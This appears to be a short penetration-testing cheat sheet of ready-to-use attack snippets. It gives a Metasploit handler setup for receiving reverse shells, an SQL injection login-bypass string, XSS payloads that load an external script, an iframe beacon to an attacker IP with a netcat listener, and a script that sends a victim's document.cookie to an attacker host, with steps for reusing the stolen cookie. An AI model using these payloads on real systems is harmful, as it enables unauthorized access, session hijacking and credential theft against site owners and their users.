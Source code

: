 	Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

	use exploit/multi/handler
	set PAYLOAD <Payload name>
	set LHOST <LHOST value>
	set LPORT <LPORT value>
	set ExitOnSession false
	exploit -j -z

	Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

# SQL Injection

```
username: tom' or 1=1 LIMIT 1;#
```

# Cross Site Scripting (XSS)
Cheatsheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## XSS Alert
```html
<script>alert(‘XSS’)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Iframe
```bash
# Start a listener on your attacking machine
sudo nc -nvlp 4444
```
```html
# input the code below in to the vulnerable appliction
<iframe src=http://192.168.119.152:4444/report height=”0” width=”0”></iframe>
```

## XSS Steal Admin Cookie
```bash
# Start a listener on your attacking machine
sudo nc -nvlp 80
```
```html
# input code below in to the vulnerble web app
<script>new Image().src="http://192.168.119.152/cool.jpg?output="+document.cookie;</script>
```
### Using the cookie
Use Firefox-Addon "Cookie Editor" to use the cookie:
https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/
